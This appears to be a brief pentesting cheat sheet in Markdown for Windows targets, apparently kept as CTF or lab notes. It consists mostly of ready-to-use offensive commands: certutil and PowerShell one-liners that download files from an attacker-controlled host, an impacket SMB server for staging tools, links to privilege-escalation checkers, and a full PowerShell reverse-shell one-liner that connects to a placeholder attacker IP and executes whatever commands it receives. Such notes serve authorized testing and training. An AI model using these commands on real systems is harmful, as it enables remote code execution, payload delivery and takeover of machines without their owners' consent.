 # Getting a file 
### CMD
``` 
certutil.exe -urlcache -split -f "http://ip:8000/archivo" archivo
```
### Powershell
```
Invoke-WebRequest -Uri http://ip:8000/archivo -OutFile archivo
```

### SMB
Local
```
python Tools/impacket/smbserver.py Tools .
```
Remote
```
copy \\10.10.14.27\Tools\file
```
# Exploit suggesters
### .exe
```
https://github.com/pentestmonkey/windows-privesc-check/blob/master/windows-privesc-check2.exe
```
### Python
```
https://github.com/pentestmonkey/windows-privesc-check/blob/master/windows_privesc_check.py
```

### Reverse Shell
#### Powershell
```
$client = New-Object System.Net.Sockets.TCPClient("IP",PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

